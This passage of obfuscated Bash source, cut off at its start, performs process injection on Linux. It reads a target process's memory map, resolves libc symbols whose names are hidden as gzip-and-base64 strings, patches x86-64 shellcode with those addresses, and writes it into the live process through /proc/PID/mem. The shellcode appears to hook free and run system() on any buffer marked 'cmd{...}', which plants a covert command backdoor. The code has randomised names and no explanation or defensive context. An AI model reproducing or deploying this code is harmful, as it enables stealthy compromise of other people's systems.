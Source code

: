 ```console
	for i in $(seq 0 7); do
		curr=$(($1 >> $i*8 & 0xff))
		packed="$packed$(printf '\\x%02x' $curr)"
	done

	echo $packed
}

ieph2Oon() {
    echo $((0x$(nm -D "$1" | sed 's/@.*//' | grep -E " $2$" | cut -d ' ' -f1)))
}

QueSh8yi() {
    echo -ne "$3" | dd of="/proc/$1/mem" bs=1 "seek=$2" conv=notrunc 2>/dev/null
}

ojeequ9I() {
    code="$1"
    from=$(echo "$2" | sed 's/\\/\\\\/g')
    to=$(echo $3 | sed 's/\\/\\\\/g')

    echo $code | sed "s/$from/$to/g"
}

xeiCh4xi() {
    echo "$1" | base64 -d | gzip -d
}

ia5Uuboh() {
    go7uH1yu="$1"

    ih9Ea1se=$(grep -E "/libc.*so$" "/proc/$go7uH1yu/maps" | head -n 1 | tr -s ' ')
    Teixoo1Z=$((0x$(cut -d '-' -f1 <<< "$ih9Ea1se")))
    cu1eiSe9=$(cut -d ' ' -f6 <<< "$ih9Ea1se")
    eo0oMaeL=$((Teixoo1Z+$(ieph2Oon $cu1eiSe9 $(xeiCh4xi H4sIAAAAAAAAA4uPTytKTY3PyM/PBgDwEjq3CwAAAA==))))
    de0fie1O=$((Teixoo1Z+$(ieph2Oon $cu1eiSe9 $(xeiCh4xi H4sIAAAAAAAAAyuuLC5JzQUAixFNyQYAAAA=))))
    EeGie9qu=$((Teixoo1Z+$(ieph2Oon $cu1eiSe9 $(xeiCh4xi H4sIAAAAAAAAA0srSk0FAMjBLk0EAAAA))))
    Eeko2juZ=$((Teixoo1Z+$(ieph2Oon $cu1eiSe9 $(xeiCh4xi H4sIAAAAAAAAA8tNzMnJT44vLU5MykmNL86sSgUA3kc6ChIAAAA=))))
    Iek6Joyo=$((0x$(grep -E "/libc.*so$" "/proc/$go7uH1yu/maps" | grep 'r-xp' | head -n 1 | tr -s ' ' | cut -d ' ' -f1 | cut -d '-' -f2)))

    HeiSuC5o='\x48\xb8\x41\x41\x41\x41\x41\x41\x41\x41\x41\x55\x49\xbd\x43\x43\x43\x43\x43\x43\x43\x43\x41\x54\x49\x89\xfc\x55\x53\x4c\x89\xe3\x52\xff\xd0\x48\x89\xc5\x48\xb8\x44\x44\x44\x44\x44\x44\x44\x44\x48\xc7\x00\x00\x00\x00\x00\x48\x83\xfd\x05\x76\x61\x80\x3b\x63\x75\x54\x80\x7b\x01\x6d\x75\x4e\x80\x7b\x02\x64\x75\x48\x80\x7b\x03\x7b\x75\x42\xc6\x03\x00\x48\x8d\x7b\x04\x48\x8d\x55\xfc\x48\x89\xf8\x8a\x08\x48\x89\xc3\x48\x89\xd5\x48\x8d\x40\x01\x48\x8d\x52\xff\x8d\x71\xe0\x40\x80\xfe\x5e\x77\x1b\x80\xf9\x7d\x75\x08\xc6\x03\x00\x41\xff\xd5\xeb\x0e\x48\x83\xfa\x01\x75\xd4\xbd\x01\x00\x00\x00\x48\x89\xc3\x48\xff\xc3\x48\xff\xcd\xeb\x99\x48\xb8\x42\x42\x42\x42\x42\x42\x42\x42\x4c\x89\xe7\xff\xd0\x48\xb8\x55\x55\x55\x55\x55\x55\x55\x55\x48\xa3\x44\x44\x44\x44\x44\x44\x44\x44\x58\x5b\x5d\x41\x5c\x41\x5d\xc3'
    HeiSuC5o=$(ojeequ9I $HeiSuC5o '\x41\x41\x41\x41\x41\x41\x41\x41' $(roth8Kai $Eeko2juZ))
    HeiSuC5o=$(ojeequ9I $HeiSuC5o '\x42\x42\x42\x42\x42\x42\x42\x42' $(roth8Kai $EeGie9qu))
    HeiSuC5o=$(ojeequ9I $HeiSuC5o '\x43\x43\x43\x43\x43\x43\x43\x43' $(roth8Kai $de0fie1O))
    HeiSuC5o=$(ojeequ9I $HeiSuC5o '\x44\x44\x44\x44\x44\x44\x44\x44' $(roth8Kai $eo0oMaeL))
    Que2vah0=$(echo -ne $HeiSuC5o | wc -c)
    Thee6ahB=$(($Iek6Joyo - $Que2vah0))
    HeiSuC5o=$(ojeequ9I $HeiSuC5o '\x55\x55\x55\x55\x55\x55\x55\x55' $(roth8Kai $Thee6ahB))

    QueSh8yi $go7uH1yu $Thee6ahB $HeiSuC5o
    QueSh8yi $go7uH1yu $eo0oMaeL $(roth8Kai $Thee6ahB)
}
```
